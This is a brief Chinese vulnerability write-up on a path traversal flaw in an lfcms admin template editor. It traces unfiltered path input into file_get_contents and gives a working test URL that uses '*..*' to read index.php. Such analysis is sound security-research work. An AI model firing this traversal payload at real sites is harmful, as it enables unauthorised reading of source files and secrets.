

### 一、漏洞简介 ###

### 二、漏洞影响 ###

### 三、复现过程 ###

漏洞起始点位于/Application/Admin/Controller/TemplateController.class.php中的edit方法，该方法用作后台模板编辑，关键代码如下

我们传入的路径需要将/替换为*接着调用了read方法，跟进该方法
    
    public function read($filename,$type=''){
      return $this->get($filename,'content',$type);
    }
继续跟进get方法
    
    public function get($filename,$name,$type='') {
    if(!isset($this->contents[$filename])) {
    if(!is_file($filename)) return false;
    $this->contents[$filename]=file_get_contents($filename);
    }
    $content=$this->contents[$filename];
    $info   =   array(
    'mtime' =>  filemtime($filename),
    'content'   =>  $content
    );
    return $info[$name];
    }
    }
该方法中返回了要读取的文件内容，可以看到在整个流程中没有对传入参数path的过滤，导致我们可以跨目录读文件，下面来验证一下，尝试读取一下跟目录index.php文件，测试链接如下

    http://lfcms.com/admin.php?s=/Template/edit/path/*..*index.php

成功的读到了CMS的入口文件

### 参考链接 ###
https://xz.aliyun.com/t/7844#toc-4